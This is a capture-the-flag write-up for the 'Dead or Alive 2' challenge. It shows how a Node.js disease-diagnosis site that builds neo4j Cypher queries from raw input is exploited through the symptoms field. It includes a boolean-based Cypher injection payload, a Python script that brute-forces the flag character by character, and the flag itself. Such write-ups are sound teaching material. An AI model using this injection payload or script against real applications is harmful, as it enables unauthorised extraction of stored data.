 # Dead or Alive 2
> We have developed an innovative disease detection system using graph theory. Come and test our system, all your personal data is securely protected

## About the Challenge
We were given a source code (You can download the source code [here](source.zip)) and a website, here is the preview of the website

![preview](images/preview.png)

In this website, there is a form where we can input the SSN (Social Security Number), full name, birth date, weight, and the symptoms.

![form](images/form.png)

The website will generate the possible diseases we may suffer from based on the symptoms

![diagnosis](images/diagnosis.png)

## How to Solve?
Let's check the source code first, there is a file called `app.js`

```js
import express from 'express';
import nunjucks from 'nunjucks';
import neo4j from 'neo4j-driver';
import md5 from 'md5'
import moment from 'moment'
```

It looks like this website using `node` as a backend, `nunjucks` as a templating engine, and `neo4j` as a database. There are 3 endpoints that we can use:

* /api/setUser
* /api/setSymptoms
* /api/getDiagnosis

When the user called `/api/setUser` endpoint, the code will call `setUser` function. Here is the content of `setUser` function

```js
async function setUser(ssn, name, yearOfBirth, weight){
    const session = driver.session();
    const q = `
        MERGE (p:Patient {
                    ssn: '${ssn}'
                })
        ON CREATE SET p.since = date()
        SET p.name = '${name}'
        SET p.yearOfBirth = ${yearOfBirth}
        SET p.weight = ${weight}
    `
    return session.run(q)
            .catch(() => {})
            .then(() => session.close());
}
```

When the user called `/api/setSymptoms` endpoint, the code will call `setSymptoms` function. Here is the content of `setSymptoms` function

```js
async function setSymptoms(ssn, symptoms){
    const session = driver.session();
    let q = `
        MATCH (p:Patient {ssn: '${ssn}'})
        MATCH (s:Symptom) WHERE s.name in [${symptoms}]
        MERGE (p)-[r:HAS]->(s)
    `;
    return session.run(q)
            .catch(() => {})
            .then(() => session.close());
}
```

When the user called `/api/getDiagnosis` endpoint, the code will call `getDiagnosis` function. Here is the content of `getDiagnosis` function

```js
async function getDiagnosis(ssn){
    const session = driver.session();
    const q = `
        // get patient symptoms as array
        MATCH (p:Patient {ssn: '${ssn}'})-[:HAS]->(s:Symptom)-[:OF]->(d:Disease)
        WITH d, collect(s.name) AS p_symptoms
        
        // looking for a match of the patient's symptoms in the symptoms of diseases
        MATCH (d)<-[:OF]-(d_symptom:Symptom)
        WITH d, p_symptoms, collect(d_symptom.name) as d_symptoms
        WHERE size(p_symptoms) = size(d_symptoms)
        RETURN d.name, d.description
    `;
    const result = await session.run(q).catch(() => {});
    session.close();
    return result?.records.map((record) => ({
            name: record.get('d.name'),
            description: record.get('d.description')
    }));
}
```

It looks like there is no filter in the user input. So, these 3 endpoints is vulnerable to Cypher Injection. But if we check the routes again, There is a filter that limits our input:

* /api/setUser
  * SSN: There is a limit of characters (9 characters)
  * Full name: The program hashed our input
  * Year of Birth: Date format (DD-MM-YYYY)
  * Weight: Only accept float as a user input
* /api/setSymptoms
  * SSN: There is a limit of characters (9 characters)
  * Symptom: No filter
* /api/getDiagnosis
  * SSN: There is a limit of characters (9 characters)

So we can only exploit the website in the `symptom` parameter. For this chall, the flag was located in the `flag` table. To obtain the flag, we are using `boolean-based` payload. My friend created a python script to test each character and using `Fever'] OR 1=1\nMATCH (f:Flag) WHERE f.flag STARTS WITH 'ctfzone{a'//` as a payload

```python
import requests
import random
import string

url = "https://dead-or-alive.ctfz.one/"
flag = "ctfzone{"
wordlist = string.ascii_letters + string.digits + "{}_!"
while True:
    for c in wordlist:
        print(f"Trying {flag+c}")
        ssn = random.randint(100000000,999999999)
        r = requests.post(url+"api/setUser", json={
            "ssn":ssn,
            "fullname":"test",
            "dateOfBirth":"12/02/2003",
            "weight":"88"
        })


        r = requests.post(url+"api/setSymptoms", json={
            "ssn":ssn,
            "symptoms":[
                f"Fever'] OR 1=1\nMATCH (f:Flag) WHERE f.flag STARTS WITH '{flag+c}'//"
            ]
        })

        r = requests.post(url+"api/getDiagnosis", json={
            "ssn":ssn
        })

        if r.json()['status'] == "Diagnosis found":
            flag += c
            print(flag)
            break
```

![flag](images/flag.png)

```
ctfzone{N0w_Y0u_4re_C0mpl3t3ly_H34lTy!}
```